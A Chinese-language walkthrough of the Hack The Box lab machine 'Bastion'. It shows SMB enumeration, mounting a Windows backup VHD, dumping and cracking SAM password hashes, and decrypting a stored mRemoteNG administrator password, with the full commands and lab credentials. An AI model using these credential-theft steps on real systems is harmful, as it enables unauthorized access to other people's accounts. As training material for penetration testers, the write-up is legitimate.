

信息收集¶
Nmap¶
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.10.134 -oA scans/ports
...
PORT STATE SERVICE
22/tcp open ssh
135/tcp open msrpc
139/tcp open netbios-ssn
445/tcp open microsoft-ds
5985/tcp open wsman
47001/tcp open winrm
49664/tcp open unknown
49665/tcp open unknown
49666/tcp open unknown
49667/tcp open unknown
49668/tcp open unknown
49669/tcp open unknown
49670/tcp open unknown
...
从上面开放的端口，我们可以推导出这是一台开放了 ssh 服务的 windows 机器。接着尝试获取这些开放端口对应的服务：
root@kali# nmap -sT -sC -sV -O -p22,135,139,445 10.10.10.134 -oA scans/details
...
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
| 2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
| 256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_ 256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: -45m33s, deviation: 1h09m14s, median: -5m35s
| smb-os-discovery:
| OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
| Computer name: Bastion
| NetBIOS computer name: BASTION\x00
| Workgroup: WORKGROUP\x00
|_ System time: 2019-05-03T07:35:01+02:00
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2019-05-03 01:34:59
|_ start_date: 2019-05-01 23:10:38
...
发现的服务为ssh、Msrpc、NetBIOS、SMB, 操作系统为Windows Server 2016 Standard 14393, NetBIOS名字是BASTION, 工作组是WORKGROUP. 说明这不是一台HTB域成员主机. SMB用户guest, 验证登级为user.
初步判断大致思路是匿名SMB登陆获取账号密码，通过ssh登陆获取更好权限。
漏洞利用¶
SMB¶
上面的信息看起来并没有什么特别的。一般的靶机，http 服务往往都是突破口。对于这个靶机，我们应该注意到开放在 445 端口的 smb 服务（445 端口往往也是 windows 机器的突破口）。在 kali 上进行 smb 服务的探测，我们可以选择使用 smbmap, smbclient, enum4linux 等。我们先来试一下 smbclient：
root@kali# smbclient -L 10.10.10.134
...
ADMIN$ Disk Remote Admin
Backups Disk
C$ Disk Default share
IPC$ IPC Remote IPC
...
或者使用smbmap：看到nmap扫描出smb有一个用户guest，用smbmap查看分享目录信息
root@kali# smbmap -H 10.10.10.134 -u guest
[+] IP: 10.10.10.134:445 Name: 10.10.10.134
[-] Work[!] Unable to remove test directory at \\10.10.10.134\Backups\YCUDSRXTPW, please remove manually
Disk Permissions Comment
---- ----------- -------
ADMIN$ NO ACCESS Remote Admin
Backups READ, WRITE
C$ NO ACCESS Default share
IPC$ READ ONLY Remote IPC
smbmap：smbmap 是一个用于快速扫描 SMB 共享目录的工具。它能够列出目标主机上的 SMB 共享，显示每个共享的权限和目录结构，以及共享中的文件和子目录等信息。smbmap 在渗透测试中经常用于发现目标系统上的敏感文件或配置错误。
smbclient：smbclient 是一个用于与 SMB/CIFS 服务器进行交互的命令行工具。它可以用于访问和管理远程共享文件夹，执行文件的上传、下载和删除等操作。smbclient 还支持在 SMB 服务器上执行一些常见的文件和目录操作，例如列出文件、创建目录、获取文件属性等。
enum4linux：enum4linux 是一个用于枚举 SMB 服务器上的信息的工具。它能够快速收集目标系统上的用户、组、共享、会话、系统信息等，并输出为易于分析的格式。enum4linux 可以帮助渗透测试人员或系统管理员了解目标系统的配置、用户信息和共享资源，从而发现潜在的安全问题或优化建议。
smbclient使用教程：https://cloud.tencent.com/developer/article/2393256
smbmap使用教程：https://www.shserve.cn/18963.html
enum4linux使用教程：https://blog.csdn.net/qq_63844103/article/details/127219997
通过 smbclient，我们可以在不使用密码的情况下看到这台靶机的共享。通过 smbclient //10.10.10.134/sharename来尝试访问共享路径，我们发现只有 Backups 是可以访问的。

访问共享 Backups: smbclient //10.10.10.134/Backups：
root@kali# smbclient //10.10.10.134/Backups -U guest
Enter WORKGROUP\guest's password:
Try "help" to get a list of possible commands.
smb: \> ls
. D 0 Wed Dec 22 10:47:38 2021
.. D 0 Wed Dec 22 10:47:38 2021
CFZMBSIEGP D 0 Wed Dec 22 10:36:04 2021
note.txt AR 116 Tue Apr 16 06:10:09 2019
SDT65CB.tmp A 0 Fri Feb 22 07:43:08 2019
TFHLPWIACJ D 0 Wed Dec 22 10:47:38 2021
WindowsImageBackup Dn 0 Fri Feb 22 07:44:02 2019
YCUDSRXTPW D 0 Wed Dec 22 10:44:00 2021
里面有note.txt和WindowsImageBackup。
note.txt内容：
Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
系统管理员：请不要在本地传输整个备份文件，VPN到附属办公室的速度太慢。
整个文件备份应该是指WindowsImageBackup这个文件夹，Windows 映像备份可能很大，传输速度会很慢（如注释警告的那样）。我不会尝试复制它，而是将此共享挂载到我的文件系统中。
Mount&&guestmount¶
root@kali# mount -t cifs //10.10.10.134/backups /mnt -o user=,password=
root@kali# ls /mnt/
note.txt SDT65CB.tmp WindowsImageBackup
这个命令是用于在 Kali Linux 上挂载一个远程的 CIFS（Common Internet File System）共享目录到本地的 /mnt 目录的。让我解释一下：
mount：这是 Linux 中用于挂载文件系统的命令。
-t cifs：这是指定要挂载的文件系统类型，即 CIFS 文件系统，CIFS 是一种用于在网络上共享文件的协议，通常在 Windows 环境中使用。
//10.10.10.134/backups：这是远程 CIFS 共享的路径，其中 10.10.10.134 是远程主机的 IP 地址，/backups 是共享的目录路径。
/mnt：这是要挂载到的本地目录，即挂载点。
-o user=,password=：这是选项参数，指定了要使用的用户名和密码。在这里，由于用户名和密码没有提供，这意味着需要手动输入用户名和密码来进行身份验证。通常情况下，你需要将这里的 user 和 password 替换为远程共享目录的有效用户名和密码。
总的来说，这条命令的作用是将远程的 CIFS 共享目录挂载到本地系统的 /mnt 目录，以便在本地访问和操作远程共享的文件和目录。
mount命令教程：https://www.linuxcool.com/mount
这样我们就可以直接访问文件了。这个可能是一个备份文件夹。在一些尝试之后，我们发现了一些有趣的文件。
root@kali# find /mnt/ -type f
/mnt/note.txt
/mnt/SDT65CB.tmp
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/BackupSpecs.xml
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_AdditionalFilesc3b9f3c7-5e52-4d5e-8b20-19adc95a34c7.xml
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Components.xml
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_RegistryExcludes.xml
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer4dc3bdd4-ab48-4d07-adb0-3bee2926fd7f.xml
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer542da469-d3e1-473c-9f4f-7847f01fc64f.xml
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writera6ad56c2-b509-4e6c-bb19-49d8f43532f0.xml
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerafbab4a2-367d-4d15-a586-71dbb18f8485.xml
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writere8132975-6f93-4464-a53e-1050253ae220.xml
/mnt/WindowsImageBackup/L4mpje-PC/Catalog/BackupGlobalCatalog
/mnt/WindowsImageBackup/L4mpje-PC/Catalog/GlobalCatalog
/mnt/WindowsImageBackup/L4mpje-PC/MediaId
/mnt/WindowsImageBackup/L4mpje-PC/SPPMetadataCache/{cd113385-65ff-4ea2-8ced-5630f6feca8f}
有两个vhd文件，VHD文件是Virtual Hard Desk, 这是一种公开可用的图像格式规范，允许将磁盘封装在单个文件中，供操作系统用作虚拟磁盘，使用方式与操作物理磁盘相同。
VHD是表示虚拟硬盘驱动器（HDD）的文件格式。它可能包含物理HDD上的内容，例如磁盘分区和文件系统，而后者又可以包含文件和文件夹。它通常用作虚拟机的硬盘。
所以这个 VHD 文件里面可能包含了更有用的信息。这里面有 2 个 VHD 文件，一个是 37M，一个是 5.1G。毫无疑问，这个大的可能更有用。但是要把整个 VHD 文件下载下来实在是太困难了，尤其是在这样的网络下。而且靶机的作者也在论坛里面说过你根本不需要将整个 VHD 文件下载下来。那就将 VHD 文件挂载到 kali：guestmountapt install libguestfs-tools
guestmount 是一个命令行工具，它允许你将虚拟机中的硬盘映像（例如 QEMU 的 QCOW2 格式、VMware 的 VMDK 格式等）挂载到本地文件系统中，以便在主机系统上访问其中的文件和目录。这使得你可以在不启动虚拟机的情况下，直接从主机系统中访问和操作虚拟机中的文件，从而方便地进行文件恢复、备份、查看和修改等操作。
通过 guestmount 命令，你可以将虚拟机中的硬盘映像挂载到主机系统的指定挂载点上，然后就可以像操作普通文件系统一样来访问其中的文件和目录。这个过程中，虚拟机的硬盘映像会被视为一个文件系统，并且可以通过主机系统的文件管理工具或命令行来进行操作。
使用 guestmount 可以方便地执行一些常见的任务，例如从虚拟机中提取文件、检查虚拟机中的配置文件、修改虚拟机中的文件内容等。这对于虚拟化环境中的系统管理、故障排除和数据恢复等工作非常有用。
现在，我将尝试装载两个 VHD 文件中的每一个。第一个失败：
root@kali# guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
guestmount: no operating system was found on this disk
If using guestfish ‘-i’ option, remove this option and instead
use the commands ‘run’ followed by ‘list-filesystems’.
You can then mount filesystems you want by hand using the
‘mount’ or ‘mount-ro’ command.
If using guestmount ‘-i’, remove this option and choose the
filesystem(s) you want to see by manually adding ‘-m’ option(s).
Use ‘virt-filesystems’ to see what filesystems are available.
If using other virt tools, this disk image won’t work
with these tools. Use the guestfish equivalent commands
(see the virt tool manual page).
第二个工作，提供对看起来像 Windows 文件系统根目录的访问：
root@kali# guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
root@kali# ls /mnt2/
'$Recycle.Bin' autoexec.bat config.sys 'Documents and Settings' pagefile.sys PerfLogs ProgramData 'Program Files' Recovery 'System Volume Information' Users Windows
现在进入/mnt2/就相当于进入了靶机的备份的windows系统
┌──(root kali)-[~/mnt2]
└─# ll
总用量 2096729
drwxrwxrwx 1 root root 0 2月 22 2019 '$Recycle.Bin'
-rwxrwxrwx 1 root root 24 6月 10 2009 autoexec.bat
-rwxrwxrwx 1 root root 10 6月 10 2009 config.sys
lrwxrwxrwx 2 root root 14 7月 14 2009 'Documents and Settings' -> /sysroot/Users
-rwxrwxrwx 1 root root 2147016704 2月 22 2019 pagefile.sys
drwxrwxrwx 1 root root 0 7月 13 2009 PerfLogs
drwxrwxrwx 1 root root 4096 7月 14 2009 ProgramData
drwxrwxrwx 1 root root 4096 4月 11 2011 'Program Files'
drwxrwxrwx 1 root root 0 2月 22 2019 Recovery
drwxrwxrwx 1 root root 4096 2月 22 2019 'System Volume Information'
drwxrwxrwx 1 root root 4096 2月 22 2019 Users
drwxrwxrwx 1 root root 16384 2月 22 2019 Windows
samdump2拿到sam哈希¶
samdump2 是一款用于提取 Windows 系统 SAM 数据库中密码哈希的工具。在 Windows 系统中，用户密码哈希以及其他安全相关信息存储在 SAM（Security Account Manager）数据库中。samdump2 可以帮助渗透测试人员在合法授权的情况下，从 Windows 系统中提取密码哈希，用于进一步的密码破解或分析。
samdump2使用教程：https://blog.csdn.net/lijiajin1228/article/details/104085326
现在我们来到/mnt2/windows/Windows/System32/config目录,我们可以在里面发现一个 SAM 文件。安全帐户管理器（SAM）是 Windows 中用于存储用户密码的数据库文件。尝试访问 SAM 文件，使用samdump2命令打印出该系统内sam保存的哈希信息.
┌──(root kali)-[~/…/windows/Windows/System32/config]
└─# samdump2 SYSTEM SAM 127 ⨯
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
截取L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::保存到本地hash.txt文件
john破解¶
root@kali# john --format=NT hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
bureaulampje (L4mpje)
1g 0:00:00:00 DONE (2021-12-23 02:57) 1.176g/s 11053Kp/s 11053Kc/s 11053KC/s buresres..burdy1
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
得到一个登陆凭证：L4mpje : bureaulampje
容易我们就破解了这个哈希。而且据我们一开始获取的信息，这台靶机是开放了 ssh 服务的，所以我们尝试使用 L4mpje 作为用户名来登录。很幸运，我们进来了。
ssh L4mpje@10.10.10.134
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
l4mpje@BASTION C:\Users\L4mpje>whoami
bastion\l4mpje
提权¶
在使用 L4mpje 用户登录成功后，我们发现我们的权限很有限。一般提权可以利用某些软件的漏洞来完成。所以，探测这个靶机安装了哪些软件很有意义。
PS C:\Program Files (x86)> dir
Directory: C:\Program Files (x86)
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 16-7-2016 15:23 Common Files
d----- 23-2-2019 09:38 Internet Explorer
d----- 16-7-2016 15:23 Microsoft.NET
da---- 22-2-2019 14:01 mRemoteNG
d----- 23-2-2019 10:22 Windows Defender
d----- 23-2-2019 09:38 Windows Mail
d----- 23-2-2019 10:22 Windows Media Player
d----- 16-7-2016 15:23 Windows Multimedia Platform
d----- 16-7-2016 15:23 Windows NT
d----- 23-2-2019 10:22 Windows Photo Viewer
d----- 16-7-2016 15:23 Windows Portable Devices
d----- 16-7-2016 15:23 WindowsPowerShell
mRemoteNG是一种远程连接管理工具，它允许用户保存各种类型连接的密码。用户的 AppData 目录中有一个文件，用于保存该信息：confCons.xml
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>dir
...
22-02-2019 15:03 <DIR> .
22-02-2019 15:03 <DIR> ..
22-02-2019 15:03 6.316 confCons.xml
22-02-2019 15:02 6.194 confCons.xml.20190222-1402277353.backup
22-02-2019 15:02 6.206 confCons.xml.20190222-1402339071.backup
22-02-2019 15:02 6.218 confCons.xml.20190222-1402379227.backup
22-02-2019 15:02 6.231 confCons.xml.20190222-1403070644.backup
22-02-2019 15:03 6.319 confCons.xml.20190222-1403100488.backup
22-02-2019 15:03 6.318 confCons.xml.20190222-1403220026.backup
22-02-2019 15:03 6.315 confCons.xml.20190222-1403261268.backup
22-02-2019 15:03 6.316 confCons.xml.20190222-1403272831.backup
22-02-2019 15:03 6.315 confCons.xml.20190222-1403433299.backup
22-02-2019 15:03 6.316 confCons.xml.20190222-1403486580.backup
22-02-2019 15:03 51 extApps.xml
22-02-2019 15:03 5.217 mRemoteNG.log
22-02-2019 15:03 2.245 pnlLayout.xml
22-02-2019 15:01 <DIR> Themes
...
因为靶机安装了ssh，所以我们可以用scp命令把文件从靶机下载到kali
┌──(root kali)-[~/htb/Bastion]
└─# scp l4mpje@10.10.10.134:/Users/L4mpje/AppData/Roaming/mRemoteNG/confCons.xml . 1 ⨯
l4mpje@10.10.10.134's password:
confCons.xml
查看confCons.xml文件，发现Administrator的哈希密码：aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
┌──(root kali)-[~/htb/Bastion]
└─# cat confCons.xml
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="ZSvKI7j224Gf/twXpaP5G2QFZMLr1iO1f5JKdtIKL6eUg+eWkL5tKO886au0ofFPW0oop8R8ddXKAx4KK7sAk6AA" ConfVersion="2.6">
<Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a-44d4-aff0-3a4f547a3fee" Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" Hostname="127.0.0.1" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="false" UseCredSsp="true" RenderingEngine="IE" ICAEncryptionStrength="EncrBasic" RDPAuthenticationLevel="NoAuth" RDPMinutesToIdleTimeout="0" RDPAlertIdleTimeout="false" LoadBalanceInfo="" Colors="Colors16Bit" Resolution="FitToWindow" AutomaticResize="true" DisplayWallpaper="false" DisplayThemes="false" EnableFontSmoothing="false" EnableDesktopComposition="false" CacheBitmaps="false" RedirectDiskDrives="false" RedirectPorts="false" RedirectPrinters="false" RedirectSmartCards="false" RedirectSound="DoNotPlay" SoundQuality="Dynamic" RedirectKeys="false" Connected="false" PreExtApp="" PostExtApp="" MacAddress="" UserField="" ExtApp="" VNCCompression="CompNone" VNCEncoding="EncHextile" VNCAuthMode="AuthVNC" VNCProxyType="ProxyNone" VNCProxyIP="" VNCProxyPort="0" VNCProxyUsername="" VNCProxyPassword="" VNCColors="ColNormal" VNCSmartSizeMode="SmartSAspect" VNCViewOnly="false" RDGatewayUsageMethod="Never" RDGatewayHostname="" RDGatewayUseConnectionCredentials="Yes" RDGatewayUsername="" RDGatewayPassword="" RDGatewayDomain="" InheritCacheBitmaps="false" InheritColors="false" InheritDescription="false" InheritDisplayThemes="false" InheritDisplayWallpaper="false" InheritEnableFontSmoothing="false" InheritEnableDesktopComposition="false" InheritDomain="false" InheritIcon="false" InheritPanel="false" InheritPassword="false" InheritPort="false" InheritProtocol="false" InheritPuttySession="false" InheritRedirectDiskDrives="false" InheritRedirectKeys="false" InheritRedirectPorts="false" InheritRedirectPrinters="false" InheritRedirectSmartCards="false" InheritRedirectSound="false" InheritSoundQuality="false" InheritResolution="false" InheritAutomaticResize="false" InheritUseConsoleSession="false" InheritUseCredSsp="false" InheritRenderingEngine="false" InheritUsername="false" InheritICAEncryptionStrength="false" InheritRDPAuthenticationLevel="false" InheritRDPMinutesToIdleTimeout="false" InheritRDPAlertIdleTimeout="false" InheritLoadBalanceInfo="false" InheritPreExtApp="false" InheritPostExtApp="false" InheritMacAddress="false" InheritUserField="false" InheritExtApp="false" InheritVNCCompression="false" InheritVNCEncoding="false" InheritVNCAuthMode="false" InheritVNCProxyType="false" InheritVNCProxyIP="false" InheritVNCProxyPort="false" InheritVNCProxyUsername="false" InheritVNCProxyPassword="false" InheritVNCColors="false" InheritVNCSmartSizeMode="false" InheritVNCViewOnly="false" InheritRDGatewayUsageMethod="false" InheritRDGatewayHostname="false" InheritRDGatewayUseConnectionCredentials="false" InheritRDGatewayUsername="false" InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" />
这串密码看上去像bash64，但其实不是。在谷歌上搜索mremoteng decrypt找到这个mremoteng decrypt脚本
解密
root@kali# python3 mremoteng_decrypt.py -s "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
Password: thXLHM96BeKL0ER2
拿到Administrator的登陆密码：thXLHM96BeKL0ER2
ssh登陆拿到root.txt
总结¶
- mount可以挂在windows共享目录
- kali下可将VHD文件通过qemu-nbd转换到/dev/nbd0p1设备，通过mount挂载
- Windows系统的账号密码凭证保存在C:/Windows/System32/Config目录下的SYSTEM、SAM文件中, 通过samdump2命令可从两个文件中提取出账号的NTLM凭证
- Windows程序安装后，会在C:/Users//AppData/Remoting/目录中保存数据和创建配置文件
- mRemoteNG程序保存的远程登陆凭证保存在C:/Users/Username/AppData/Remoting/mRemoteNG/confCon.xml文件中, 密码通过aes加密，默认加密密码为mR3m